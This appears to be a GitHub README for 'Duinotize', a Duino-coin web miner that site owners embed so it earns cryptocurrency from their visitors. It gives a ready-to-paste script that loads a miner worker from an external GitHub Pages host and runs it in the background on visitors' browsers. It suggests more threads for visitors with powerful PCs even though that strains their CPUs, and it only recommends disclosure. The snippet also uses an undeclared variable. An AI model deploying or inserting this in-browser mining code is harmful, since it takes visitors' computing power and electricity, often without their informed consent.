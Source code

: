 # Duinotize
_Duino-coin webminer/website monetizer_

Tired of showing users ads? Use Duinotize! It's a modified version of the Duino-coin web miner designed to be integrated into any website 

## Installation
Put the following code at the very bottom of the page where you want the miner to start: (most likley your home page, as the miner will run in the background for the duration your visiters are on the site, not just the page)
```
<script>
let threads = "1";
for (let workersAmount = 0; workersAmount < threads; workersAmount++) {
    let socketWorker = new Worker("https://mobilegmyt.github.io/Duinotize/miner.js");
    socketWorker.postMessage('Start,' + "username" + "," + "rigid" + "," + "0" + "," + Math.floor(Math.random() * 2811));
    workerVer++;
}
</script>
```
NOTE: You'll want to repalce `username` with your Duco account username, and `rigid` with the ID you want it to show up as in the wallet, so for example:
`socketWorker.postMessage('Start,' + "rpinews" + "," + "site-monotizer" + "," + "0" + "," + Math.floor(Math.random() * 2811));`. You can also change the `threads` variable, it is set to 1 for default so it'll work on all devices, but if most people using your site have buff gaming PCs, then you can turn it up to 2 or 3, but it will start to strain their CPU more.

We reccomend you put a note somewhere on your website to tell visiters that there is a crypto miner running in the background, and credit this repo.

This project is a fork/continuation of https://github.com/VatsaDev/Mineuino as the original author seems to have abandoned it and the code is broken.

## Notes
- If there is enough demand for it, I might be able to add a XXHASH miner to the code
- I made this in 2 hours, so if there are bugs PLEASE report them
